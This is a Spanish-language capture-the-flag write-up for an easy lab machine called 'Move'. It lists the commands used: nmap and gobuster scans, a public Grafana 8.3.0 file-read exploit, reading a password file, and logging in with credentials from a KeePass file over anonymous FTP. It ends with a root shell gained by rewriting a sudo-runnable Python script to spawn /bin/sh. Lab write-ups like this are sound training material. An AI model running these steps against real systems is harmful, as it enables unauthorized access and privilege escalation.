 Maquina: Move

Autor: El Pinguino de Mario

Dificultad: Facil

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

ping 172.17.0.2 -c 1

despues scaneamos con nmap un escaneo de puertos y servicios detallado

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

el puerto 22 perteneciente al servicio SSH y el puerto 80 perteneciente al servicio HTTP y el puerto 3000 están abiertos

volvemos a scanear con nmap para obtener más información sobre ese puerto específicamente.

sudo nmap -sCV -p22,80,3000 -v 172.17.0.2

El puerto 80 y el 3000 podemos encontrar servicios web y en el 3000 nos aparece una redirección a un panel de Login. 

buscamos directorios con la herramienta Gobuster

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://172.17.0.2

Encontramos un archivo /maintenance.html

Hemos encontrado un encabezado en HTML que revela la ruta de un archivo potencialmente interesante, aunque actualmente no tenemos acceso al sistema para explorarlo más a fondo. Guardaremos esta información para usarla mas adelante.

enumeramos del puerto 3000

Hemos encontrado un panel de inicio de sesión de Grafana. Lo más notable es que en la parte inferior del panel se muestra la versión específica del servicio.

la versión específica de Grafana que encontramos es vulnerable a un exploit que permite la lectura de archivos en el sistema.

searchsploit grafana 8.3.0

python3 exploit.py -H http://172.17.0.2:3000

leemos el archivo /tmp/pass.txt

nos conectamos por ftp con anonymous

ftp 172.17.0.2

Vemos que hay un archivo kdbx que es un archivo de Keepass, al momento de abrirlo vemos que nos pide una contraseña vamos a probar la que encontramos en el directorio /tmp.

Vamos a conectarnos vía SSH con el usuario y contraseña del KeePass

ssh freddy@172.17.0.2

Si hacemos un sudo -l nos aparece lo siguiente

Como podemos ejecutar el script mantienance.py como root lo que podemos hacer es modificar el script y hacer que al ejecutar spawnee una bash como root de la siguiente forma

nano maintenance.py

import os
os.system("/bin/sh")

ejecutamos el archivo

sudo /usr/bin/python3 /opt/maintenance.py

whoami
